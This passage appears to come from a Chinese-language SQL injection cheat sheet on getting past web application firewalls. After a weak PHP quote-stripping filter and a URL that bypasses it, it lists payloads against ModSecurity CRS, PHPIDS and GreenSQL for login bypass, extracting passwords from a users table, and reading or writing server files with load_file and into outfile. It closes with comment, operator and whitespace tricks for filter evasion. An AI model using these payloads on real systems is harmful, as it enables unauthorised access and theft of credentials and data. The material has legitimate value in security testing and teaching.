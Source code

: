 ```
$val = str_replace(array("'"," ","("),"",$arrFields[$fname]); // basic defence

```

Bypass:

```
vuln.php?id=1/**/union%a0select/**/1,pass,3`a`from`users`

```

### b) WAF绕过示例

#### 1. ModSecurity CRS 2.0.9 

```
1'and 0x61=(/*foo*/SELECT mid(pass,1,1) from users limit 1,1)and'1
1'union/*!select*/pass,load_file(0x123456789)from users-- -

```

#### 2. PHPIDS 0.6.4 

```
foo'!=@a:=0x1 div'1a false != true 　　//auth bypass
foo'div count(select`pass`from(users)where mid(pass,1,1)rlike lower(conv(10,pi()*pi(),pi()*pi())) )-'0
a'in(true) and false */*!(true)union#newline select pass`alias`from users where true*/* n'1

```

#### 3. GreenSQL 1.3.0 

检测关键字：`union, information_schema, into outfile, current_user, current_date, version`

检测函数：`mid(), substring(), substr(), load_file(), benchmark(), user(), database(), version()`

```
adm' 'in' or 1='1        // auth bypass
'-(1)union(select table_name,load_file('/tmp/test'),@@version
from /*! information_schema.tables */);%00    //select union
'-'' into%a0outfile '/tmp/test   //write to file

```

### c) SQLi Filter Evasion Cheat sheet

```
#注释
' or 1=1#
' or 1=1/* (MySQL < 5.1)
' or 1=1;%00
' or 1=1 union select 1,2 as `
' or#newline
' /*!50000or*/1='1
' /*!or*/1='1

#前缀
+ – ~ !
' or –+2=- -!!!'2

#操作符：
^, =, !=, %, /, *, &, &&, |, ||, , >>, <=, <=, ,, XOR, DIV, LIKE, SOUNDS LIKE, RLIKE, REGEXP, LEAST, GREATEST, CAST, CONVERT, IS, IN, NOT, MATCH, AND, OR, BINARY, BETWEEN, ISNULL

#空格
%20 %09 %0a %0b %0c %0d %a0 /**/
'or+(1)sounds/**/like"1"–%a0-
```